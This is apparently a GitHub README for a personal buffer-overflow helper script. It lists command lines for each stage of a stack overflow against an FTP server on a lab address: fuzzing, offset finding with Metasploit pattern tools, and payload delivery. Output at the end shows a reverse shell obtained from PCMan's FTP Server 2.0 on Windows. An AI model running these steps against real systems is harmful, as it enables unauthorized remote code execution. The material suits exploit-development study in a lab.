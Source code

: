 # BufferOverflowToolkit
just some general purpose tools to help myself when detecting and performing buffer overflows

Ignore the code it's just PoC right now.

https://youtu.be/ljxVBLHIyWk

## Throw 200 bytes of data at the socket until it crashes, examine crash point -- stage 1
```
➜  ./bof.py --ip 192.168.1.236 --port 21 --bytes 200 --stage 1
```

## Use Metasploit-Framework's pattern_create tool automagically. -- stage 2
```
➜  ./bof.py --ip 192.168.1.236 --port 21 --bytes 2400 --stage 2
```

## Helper function to return the exact offset via pattern_offset from the instruction pointer -- stage 3
```
➜  ./bof.py --address 7043396F --stage 3
```

## Hunt your bad characters -- stage 4
TODO

## Blast your socket and get a connection back -- stage 5

```bash
➜  ./bof.py --ip 192.168.1.236 --port 21 --bytes 2008 --address 77F1E871 --nops 15 --stage 5
```

## End Result
```bash
[*] Connecting to 192.168.1.236...
[x] Connected to 220 PCMan's FTP Server 2.0 Ready.

[*] Sending payload...
[x] Payload delivered
[*] Waiting for target to connect
Ncat: Version 7.40 ( https://nmap.org/ncat )
Ncat: Listening on :::54321
Ncat: Listening on 0.0.0.0:54321
Ncat: Connection from 192.168.1.236.
Ncat: Connection from 192.168.1.236:50121.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\donthackmebro\Downloads>whoami
whoami
win-t72rd5qv7hv\donthackmebro
```
